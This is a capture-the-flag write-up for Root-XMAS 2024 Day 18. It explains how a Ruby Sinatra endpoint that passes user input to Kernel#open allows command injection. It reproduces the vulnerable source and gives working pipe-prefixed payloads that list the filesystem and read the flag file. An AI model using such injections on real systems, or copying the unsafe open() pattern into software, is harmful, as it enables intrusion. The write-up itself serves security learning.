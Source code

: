 ```yaml
---
title: Root-XMAS 2024  Day 18 - Santa's sweet words
feed: show
permalink: /RootXMAS_2024_18
date: 18-12-2024
summary: Open sesame
---
```

### summary

`open` in ruby does a lot of things... including executing commands!

### recon

We have a small web page where we can get some quotes from Santa, and we can also download the source of the chall. It's a small Ruby script, so let's put it below in it's entirety:

```ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end

```

### solution

The interesting endpoint is of course `/api/message` with the `number` parameter, which allows us to read any ".txt" file... but we don't know where is the flag!
if we try to access https://day18.challenges.xmas.root-me.org/api/message?number=flag , we get an `500 Internal error` response 

The juicy lines are:

```ruby
  file_name = "#{number}.txt"
  content = open(file_name, "rb") { |f| f.read }
```

So, not knowing much about Ruby, let's RTFM: [man open](https://apidock.com/ruby/Kernel/open) . Extract:

> *(You can) Open a subprocess and read its output:*
```ruby
cmd = open("|date")
print cmd.gets
cmd.close
```

Oookay... that's a little bit too powerful and dangerous, but useful for us! 
So let's try with any linux command:

```
?number=| ls / ;
	bin
	...
	flag-ruby-expert.txt
	...
```

and we can get the flag!

```
?number=|cat /flag-ruby-expert.txt ;

	RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}
```
